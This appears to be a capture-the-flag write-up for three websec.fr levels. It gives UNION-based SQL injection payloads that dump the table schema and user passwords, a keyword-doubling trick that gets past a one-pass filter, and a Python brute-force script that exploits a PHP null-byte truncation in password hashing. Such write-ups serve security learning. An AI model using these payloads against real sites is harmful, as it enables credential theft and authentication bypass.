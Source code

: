                             websec.fr CTF writeups


Level 01:
---------
    It's simple SQL injection, We first find out the query used to create the table.
    
    -1 UNION SELECT 'xyz', GROUP_CONCAT(sql) FROM sqlite_master;--

    Now to extract the password, we again use UNION & GROUP_CONCAT and we get the flag.
    -1 UNION SELECT 'xyz', GROUP_CONCAT(password) FROM users;--

Level 02:
---------
    It’s a similar level as the previous one, but now few keywords are getting replaced with the empty string. As preg_replace only does one pass while replacing. We can use something like SELSELECTECT which will result in inner SELECT getting replaced with an empty string and resulting in the final SELECT string.

    The following keywords were found to be filtered by the application using preg_replace (): union, order, select, from, group, by.

    NewPayload:
        -1 UNIOUNIONN SELECSELECTT 'xyz', GROUGROUPP_CONCAT(password) FROFROMM users;--


Level 03:
----------
    Challenge:
    ----------
    Since php types are idiotic-sloppy, it's safer to hash the raw variables first, with sha1 (that does accept arrays and other weird things), then to hash the result with password_hash to avoid funny stuff.
    To compare them, we're using password_verify, since its implementation is foolproof. 

    This level introduces a bug that occurs at PHP’s C implementation. In its implementation, it uses char* to store the input value because of this string past null character gets discarded. Something else to notice here is that it is using fa1se instead of false in these two mentioned lines because of which hash gets returned in raw format

    $h2 = password_hash (sha1($_POST['c'], fa1se), PASSWORD_BCRYPT);
    if (password_verify (sha1($flag, fa1se), $h2) === true {

    Now we have flag's hash which is '7c00249d409a91ab84e3f421c193520d9fb3674b' and it has null
    byte at second position. So, effectively this make 'password_verfiy' the first
    parameter to be byte 7c. Now if we find and string whose sha1 start with 7c00, then we can 
    get flag.

    Code:
      import hashlib
      sha1 = lambda x:hashlib.sha1(str(x)).hexdigest()
      
      i = 0
      while True:
        if sha1(i).startswith("7c00"):
            print(i)
            break
        i += 1
    
    We get 104610 and entring the same as input gives us the flag.




